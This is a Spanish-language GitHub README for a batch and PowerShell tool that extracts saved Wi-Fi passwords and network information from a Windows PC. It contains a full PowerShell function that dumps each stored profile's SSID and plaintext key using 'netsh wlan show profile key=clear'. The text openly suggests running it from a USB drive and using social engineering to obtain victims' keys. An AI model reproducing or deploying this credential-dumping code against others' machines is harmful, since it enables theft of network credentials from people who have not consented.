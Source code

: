 # Wi-Fi

![](https://1.bp.blogspot.com/-NZFmbAF5_6U/WfMx3j17FEI/AAAAAAAAId4/uDLKER2aeV8mPgUVfuawP3_5adAj5kg5gCLcBGAs/s1600/Screenshot_4.png)

El programa esta desarrollado en bat y en powershell su objetivo es extraer las contraseña he información de red que tiene un pc ya sea manualmente o automáticamente
Solo las contraseñas guardadas de la pc ,puedes guardar el programa en una USB y ejecutarlo de ahí mismo. o usar diversas técnicas de ingeniería social para poder obtener las claves de tus victimas.. .
- https://lpericena.blogspot.com//2017/10/wiffi.html
- Pasos a seguir
```
1.-Descargar el programa
2.-ejecutamos el programa
3.-opción 1 información de la red inalambrica
4.-opción 2 extraer las claves de wifi manualmente
5.-opción 3 extraer las claves de wifi automáticamente```
hasta finalizar
```
### Código Powershell
- Autor : https://github.com/H3LL0WORLD
```
Function Get-WLAN_Profiles {
	param (
		[ValidateSet('es-ES','en-EN')]
		$LANGUAGE = $Host.CurrentUICulture.Name
	)
	$LANGUAGES = @{
		'es-ES' = New-Object psobject -Property @{
			'user_profiles_text' 	 = 'Perfil de todos los usuarios'
			'profile_not_found_text' = 'No se encuentra el perfil'
			'ssid_name_text' 		 = 'Nombre de SSID'
			'network_type_text' 	 = 'Tipo de red'
			'authentication_text'	 = 'Autenticación'
			'encryption_text'	 	 = 'Cifrado'
			'key_text' 				 = 'Contenido de la clave'
		}
		'en-EN' = New-Object psobject -Property @{
			'user_profiles_text' 	 = 'All User Profile'
			'profile_not_found_text' = 'Profile not found'
			'ssid_name_text' 		 = 'SSID name'
			'network_type_text' 	 = 'Network Type'
			'authentication_text'	 = 'Authentication'
			'encryption_text'	 	 = 'Cipher'
			'key_text' 				 = 'Key Content'
		}
	}
	$LANG = $LANGUAGES."$LANGUAGE"

	function getValueByName ( $inputText, $nameString ) {
		$value = "";
		if ([regex]::IsMatch($inputText,"\b$nameString\b","IgnoreCase")) {
			$value = ([regex]::Replace($inputText,"^[^:]*: ","")); 
		}
		return $value.Trim();
	}

	$Profiles = @()
	netsh wlan show profiles | % {
		$profile = getValueByName $_ $LANG.'user_profiles_text';
		if ($profile) {
			$Profiles += $profile
		}
	}

	$WLAN_Profiles = @()
	$rowNumber = -1;
	$Profiles | % {
		$wlan_Profile = netsh wlan show profile $_ key=clear
		if ($wlan_Profile.Contains($LANG.'profile_not_found_text')){
			return
		}
		$InterfaceName = $null
		$wlan_Profile | % {
			if (!($InterfaceName)) {
				$InterfaceName = getValueByName $_ $LANG.'ssid_name_text'
				$InterfaceName = $InterfaceName.Trim('"')
							
				if ($InterfaceName) {
					$row = New-Object PSObject -Property @{
						InterfaceName = $InterfaceName
						SSID = $InterfaceName
						NetworkType=""
						Authentication=""
						Encryption=""
						Key=""
					}
					$rowNumber+=1
					$WLAN_Profiles += $row
					#$WLAN_Profiles | ft
					return
				}
			}
			if (!($WLAN_Profiles[$rowNumber].NetworkType)) {
				$NetworkType = getValueByName $_ $LANG.'network_type_text';
				if ($NetworkType) {
					  $WLAN_Profiles[$rowNumber].NetworkType = $NetworkType
				}
			}
			
			if (!($WLAN_Profiles[$rowNumber].Authentication)) {
				$Authentication = getValueByName $_ $LANG.'authentication_text';
				if ($Authentication) {
					  $WLAN_Profiles[$rowNumber].Authentication = $Authentication
				}
			}
			
			if (!($WLAN_Profiles[$rowNumber].Encryption)) {
				$Encryption = getValueByName $_ $LANG.'encryption_text';
				if ($Encryption) {
					  $WLAN_Profiles[$rowNumber].Encryption = $Encryption
				}
			}
			
			if (!($WLAN_Profiles[$rowNumber].Key)) {
				$Key = getValueByName $_ $LANG.'key_text';
				if ($Key) {
					  $WLAN_Profiles[$rowNumber].Key = $Key
				}
			}
		}
	}

	if ($WLAN_Profiles.Count -gt 0) {
		'Total WLAN_Profiles: ' + $WLAN_Profiles.Count
		<#return#> $WLAN_Profiles | Select-Object 		   SSID,
											 Authentication,
														Key,
												 Encryption,
												NetworkType
	} else {
		'No WLAN Profiles found!'
	}
}

```

## Expresiones de Gratitud

* Bueno espero que le sea de utilidad cualquier consulta pueden dirigirse a mis redes sociales:
- 🌎Blogger          https://lpericena.blogspot.com/
- 💡 Github            https://github.com/Pericena
- 🎬 youtube.com  https://www.youtube.com/channel/UCELx1m-NeAdBn7mCuQ86kcw
- 📸 pinterest        https://es.pinterest.com/lushiopericena/
- 🐤 twitter             https://twitter.com/LPericena


* Gracias

---
Por [Pericena](https://github.com/Pericena)
